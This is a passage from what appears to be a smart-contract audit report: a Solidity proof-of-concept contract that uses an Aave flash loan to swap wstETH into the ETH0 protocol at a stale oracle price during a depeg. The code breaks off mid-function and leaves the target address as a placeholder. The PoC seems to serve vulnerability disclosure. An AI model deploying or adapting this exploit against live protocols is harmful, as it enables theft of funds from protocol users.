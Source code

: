 
### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {FlashLoanSimpleReceiverBase} from "@aave/core-v3/contracts/flashloan/base/FlashLoanSimpleReceiverBase.sol";
import {IPoolAddressesProvider} from "@aave/core-v3/contracts/interfaces/IPoolAddressesProvider.sol";
import {IPool} from "@aave/core-v3/contracts/interfaces/IPool.sol";
import {IDaoCollateral} from "src/interfaces/IDaoCollateral.sol";
import {IWstETH} from "src/interfaces/IWstETH.sol";

/**
 * @title ETH0OracleExploit
 * @notice Demonstrates the oracle timestamp manipulation vulnerability in ETH0 protocol
 */
contract ETH0OracleExploit is FlashLoanSimpleReceiverBase {
    address public constant WSTETH = 0x7f39C581F595B53c5cb19bD0b3f8dA6c935E2Ca0;
    address public constant ETH0_DAO_COLLATERAL = address(0); // Add deployed address
    
    IDaoCollateral public daoCollateral;
    IWstETH public wstETH;
    
    constructor(address _addressProvider) FlashLoanSimpleReceiverBase(IPoolAddressesProvider(_addressProvider)) {
        daoCollateral = IDaoCollateral(ETH0_DAO_COLLATERAL);
        wstETH = IWstETH(WSTETH);
    }

    function executeOperation(
        address asset,
        uint256 amount,
        uint256 premium,
        address initiator,
        bytes calldata params
    ) external override returns (bool) {
        // 1. Approve DaoCollateral to spend our wstETH
        wstETH.approve(address(daoCollateral), amount);

        // 2. Calculate minimum ETH0 to receive
        // During depeg, this will be higher than actual value due to oracle issue
        uint256 minAmountOut = 0; // Can be calculated based on expected price

        // 3. Swap wstETH for ETH0
        // This will use the manipulated oracle price
        daoCollateral.swap(WSTETH, amount, minAmountOut);

        // 4. Repay the flash loan
        // Need to approve Aave pool
        uint256 amountToRepay = amount + premium;
        wstETH.approve(address(POOL), amountToRepay);

        return true;
    }

    function executeAttack(uint256 amount) external {
        // Flash loan wstETH
        POOL.flashLoanSimple(
            address(this),
            WSTETH,
```